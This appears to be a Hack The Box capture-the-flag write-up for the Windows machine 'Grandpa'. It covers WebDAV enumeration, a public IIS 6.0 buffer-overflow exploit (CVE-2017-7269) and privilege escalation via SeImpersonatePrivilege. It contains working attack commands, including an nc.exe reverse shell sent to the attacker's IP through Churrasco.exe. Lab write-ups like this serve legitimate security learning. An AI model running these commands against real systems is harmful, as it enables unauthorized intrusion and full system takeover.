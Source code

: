 ```yaml
---
title: "Grandpa"
date: 2023-08-30T13:24:37+02:00
tags: ["windows","web","privesc","buffer overflow"]
categories: ["hackthebox"]
author: "Ayman Boulaich"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
summary: "Windows machine with a website which has a buffer overflow vulnerability which allow us to get RCE. Thanks to Churrasco.exe we exploit the SeImpersonatePrivilege to privEsc."
description: "Windows machine with a website which has a buffer overflow vulnerability which allow us to get RCE. Thanks to Churrasco.exe we exploit the SeImpersonatePrivilege to privEsc."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: true
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: false
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Grandpa
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Grandpa

![Untitled](/HTB/grandpa-icon.png)

## Tools Used

- nmap
- davtest
- searchsploit

## Port Scanning

```bash
sudo nmap $IP -n -Pn -vvv --min-rate 5000
```

```bash
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-title: Under Construction
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Server Date: Wed, 23 Aug 2023 11:04:23 GMT
|   Server Type: Microsoft-IIS/6.0
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We have only one port with a **http** site running and up.

## Enumeration

The website is gonna be our unique point of entry so let’s visit it.

![Untitled](/HTB/grandpa-1.png)

We have an **IIS** under construction page.

If we return to the **nmap** scan we can see that **webdav** is running as the granny machine so let’s test the **PUT** option with some extensions.

```bash
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.10.14
********************************************************
NOTE    Random string for this session: NHwzc9ANv
********************************************************
 Creating directory
MKCOL           FAIL
********************************************************
 Sending test files
PUT     html    FAIL
PUT     php     FAIL
PUT     txt     FAIL
PUT     jsp     FAIL
PUT     cfm     FAIL
PUT     shtml   FAIL
PUT     asp     FAIL
PUT     cgi     FAIL
PUT     aspx    FAIL
PUT     jhtml   FAIL
PUT     pl      FAIL

********************************************************
/usr/bin/davtest Summary:
```

All failed 😫 so we can’t play with the extensions.

## Exploiting

As we know we have **IIS 6.0 webDAV** let’s see if there is some vuln at searchsploit

![Untitled](/HTB/grandpa-2.png)

The **remote buffer overflow** which gives us **RCE** looks great.

Once executed doesn’t seems to work pretty well so I decided to search other similar exploit.

![Untitled](/HTB/grandpa-3.png)

If we check the **exploitdb** website we can see the **CVE** so let’s google a equivalent exploit.

This **github [exploit](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)** worked for me. I perfomed the attack with the following command

```bash
python2 webdavBO.py 10.10.10.14 80 10.10.14.9 4444
```

## Gaining an Initial Foothold

![Untitled](/HTB/grandpa-4.png)

Navigating through the directories we can see the use of **Documents and Settings** folder as **Users** folder that tells you that the version is pretty older.

![Untitled](/HTB/grandpa-5.png)

If I try to access to **Harry** folder, we receive the following message.

![Untitled](/HTB/grandpa-6.png)

We need to **privEsc** in order to access to the user’s flag.

## Escalating Privilege

First of all, let’s check the current privileges

```bash
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

We can see that we have enabled the `SeImpersonatePrivilege` so as we know thanks to [Granny’s](https://pwndside.github.io/posts/granny-htb/) write up this is a vulnerability can be exploited so I am going to skip that part and go direct to the execution of **Churrasco.exe** in order to **privesc**.

```powershell
nc -lv 4445
```

```powershell
.\churrasco.exe "\\10.10.14.9\smbFolder\nc.exe -e cmd 10.10.14.9 4445"
```

![Untitled](/HTB/grandpa-7.png)

It has worked.

### Flag(s)

**User’s flag**

![Untitled](/HTB/grandpa-8.png)

**Root’s flag**

![Untitled](/HTB/grandpa-9.png)

**Thank you for reading, and happy hacking! 😄**
